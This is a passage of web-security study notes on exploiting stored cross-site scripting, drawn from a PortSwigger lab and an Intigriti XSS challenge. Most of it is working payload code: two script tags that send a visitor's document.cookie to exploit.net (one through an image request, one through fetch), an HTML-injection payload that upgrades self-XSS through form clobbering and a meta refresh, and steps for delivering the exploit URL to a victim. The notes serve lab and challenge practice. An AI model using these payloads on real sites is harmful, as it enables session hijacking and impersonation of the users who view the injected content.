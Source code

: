 ```JavaScript
<script>
document.write('<img src="https://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

> Below target has a stored XSS vulnerability in the blog comments function. Steal a victim user session cookie that views the comments after they are posted, and then use their cookie to do impersonation.

> **Fetch API** JavaScript Cookie Stealer payload in Blog post comment.

```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

[PortSwigger Lab: Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

**Upgrade stored self-XSS**

> Blog comment with **Stored self-XSS**, upgrading the payload to steal victim information from DOM. The function **edit content** reflect the input in the `<script>` tag. The CSRF token for the **write comment** is same as the **edit content** functions. Below payload use **write comment** function to make the victim create a blog entry on their on blog with our malicious content. The `a` character is added to escape the `#` hash character from the initial application `source code`. The below `source code` in the blog entry is full exploit to steal victim info.

```html
<button form=comment-form formaction="/edit" id=share-button>Click Button</button>
<input form=comment-form name=content value='<meta http-equiv="refresh" content="1; URL=/edit" />'>
<input form=comment-form name=tags value='a");alert(document.getElementsByClassName("navbar-brand")[0].innerText)//'>
```

> This target is exploited by constructing an HTML injection that clobbers a variable named `share_button`, see `source code` below and uses HTML code above. The content is reflected on the page, then using this reflection enable page redirection to victim `/edit` page with the use of the `meta http-equiv` tag to refresh page after 1 second result in redirection.

```
https://challenge-1222.intigriti.io/blog/unique-guid-value-abc123?share=1
```

> Deliver Exploit, by Sending url that reference the above blog entry to the victim will trigger XSS as them.

[intigriti - Self-XSS upgrade - Solution to December 22 XSS Challenge](https://youtu.be/FowbZ8IlU7o)

> Alternative exploit using HTML injection in the Edit Content blog entry page, _**identified**_ using [XSS Resources CSP check](broken-reference).
